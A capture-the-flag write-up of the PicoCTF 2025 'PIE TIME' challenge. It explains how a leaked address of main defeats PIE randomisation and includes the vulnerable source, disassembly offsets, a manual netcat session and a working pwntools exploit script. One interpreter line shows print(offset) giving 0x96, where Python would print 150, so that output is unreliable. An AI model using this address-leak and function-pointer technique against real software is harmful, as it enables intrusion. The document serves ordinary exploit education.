 ```yaml
---
title: PIE TIME
parent: Easy
grand_parent: Pwn
great_grand_parent: PicoCTF
nav_order: 3
---
```



# PIE TIME - PicoCTF 2025

**Category:** Binary Exploitation  
**Difficulty:** Easy  
**Tags:** PIE, Offset Calculation, pwntools, pwndbg

---

## Challenge Description

> Can you try to get the flag? Beware we have PIE!
>
> Files provided:
> - `vuln` (binary)
> - `vuln.c` (source code)
> - Remote instance: `nc rescued-float.picoctf.net <port>`

> <details>
>   <summary>Hints</summary>
>   Can you figure out what changed between the address you found locally and in the server output?
> </details>

---

## Initial Analysis

Upon reading the description and reviewing the source code, it's clear that:

- PIE (Position Independent Executable) is enabled

> PIE, or Position Independent Executable, randomizes the base address of the binary at runtime, meaning absolute addresses change every run. This prevents us from hardcoding the address of win(). However, offsets between functions remain constant because they are relative to the PIE base.

---

## Source Code Analysis

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

### Key Observations

- The program directly prints the address of `main()` at runtime
- The program allows arbitrary function pointer execution by letting us input any address to call
- PIE randomizes base addresses, but internal offsets remain constant
- The `win()` function reads and prints the flag if executed

---

## Static Binary Analysis

We analyze the binary with pwndbg to find the static offset between main() and win():

```sh
$ pwndbg ./vuln           
[snip...]
pwndbg> disassemble main
Dump of assembler code for function main:
   0x000000000000133d <+0>:     endbr64
[snip...]
pwndbg> disassemble win
Dump of assembler code for function win:
   0x00000000000012a7 <+0>:     endbr64
[snip...]
```

### Offset Calculation

```
$ python3
>>> main_addr = 0x133d  
>>> win_addr  = 0x12a7  
>>> offset = main_addr - win_addr
>>> print(offset)
0x96
```

**The key realization is that this offset remains fixed regardless of PIE randomization.**

---

## Exploitation

### Plan

1. Leak the runtime address of main() (given).
2. Subtract 0x96 to calculate the runtime address of win().
3. Input this address and trigger execution

### Manual Exploitation

```
$ nc rescued-float.picoctf.net <port>

Address of main: 0x613514f6433d
Enter the address to jump to, ex => 0x12345: 0x613514f642a7
Your input: 613514f642a7
You won!
picoCTF{<redacted>}
```

### Automated Exploitation with pwntools

```python
from pwn import *
import sys

if len(sys.argv) != 2:
  print(f"Usage: {sys.argv[0]} <port>")
  sys.exit(1)

host = 'rescued-float.picoctf.net'
port = int(sys.argv[1])

conn = remote(host, port)

# Parse leaked address of main
leak_line = conn.recvline().decode().strip()
main_addr = int(leak_line.split(": ")[1], 16)

# Offset from static analysis
offset = 0x96
win_addr = main_addr - offset

# Send calculated win address
conn.sendline(hex(win_addr))

# Receive flag
conn.recvuntil(b"You won!\n")
print(conn.recvall().decode())
```

---

## Key Takeaways
- PIE randomizes binary base addresses but not relative offsets
- Leaking function addresses enables reliable exploitation via offset calculation
- pwndbg are essential tools for static binary analysis
